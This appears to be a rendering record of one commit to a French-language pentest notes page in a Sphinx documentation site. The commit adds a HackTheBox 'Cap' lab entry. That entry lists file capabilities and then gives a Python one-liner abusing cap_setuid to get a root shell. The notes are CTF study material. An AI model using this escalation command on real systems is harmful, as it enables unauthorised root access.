

Before and after one commit to Iole-Bri/misp_docs_2, a Sphinx documentation site: the page built from docs/source/src/pentest.md, in a window 1280 px wide and 900 px high, scrolled down 1159 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
modif pentest.md

````diff
--- a/docs/source/src/pentest.md
+++ b/docs/source/src/pentest.md
@@ -53,6 +53,16 @@ Exemple :
     <br/>```# whoami```
     <br/>ans : root
 
-* n°2 : TryHackMe -> [BasicPentesting Room](https://tryhackme.com/room/basicpentestingjt)
+* N°2 : TryHackMe -> [BasicPentesting Room](https://tryhackme.com/room/basicpentestingjt)
     <br/>```ssh -i /home/<user>/.ssh/id_rsa kay@<ip>```
     <br/> Cette ligne permet de se connecter en ssh à un user par l'intermédiaire d'un autre user présent sur la même machine.
+
+* N°3 : HackTheBox -> [CAP Room](https://app.hackthebox.eu/machines/Cap)
+
+nathan@cap:~$ getcap -r / 2>/dev/null
+/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
+/usr/bin/ping = cap_net_raw+ep
+/usr/bin/traceroute6.iputils = cap_net_raw+ep
+/usr/bin/mtr-packet = cap_net_raw+ep
+/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
+nathan@cap:~$/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
````
